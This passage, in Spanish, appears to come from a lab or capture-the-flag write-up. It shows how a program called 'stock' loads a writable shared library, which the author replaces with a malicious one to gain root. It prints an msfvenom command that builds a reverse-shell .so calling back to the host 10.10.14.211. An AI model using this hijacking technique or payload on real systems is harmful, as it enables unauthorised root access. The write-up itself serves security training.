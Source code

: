 Observamos que el programa en cuestión requiere un archivo denominado '/home/rektsu/.config/libcounter.so', el cual identificamos como un punto de intervención donde podemos realizar modificaciones y ejecutar acciones según nuestras necesidades.

### Creación del archivo .so.

Generamos un archivo de objeto compartido (.so) con contenido malicioso y lo ubicamos en la ruta donde el programa en ejecución hace referencia a su llamada.

```bash
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.14.211 \
LPORT=443 -f elf-so -o libcounter.so
```

Transferimos el archivo manipulado al equipo objetivo y, una vez allí, ejecutamos la aplicación 'stock' con privilegios de superusuario (root), lo que nos proporcionaría el acceso a nivel de superusuario en el sistema objetivo.
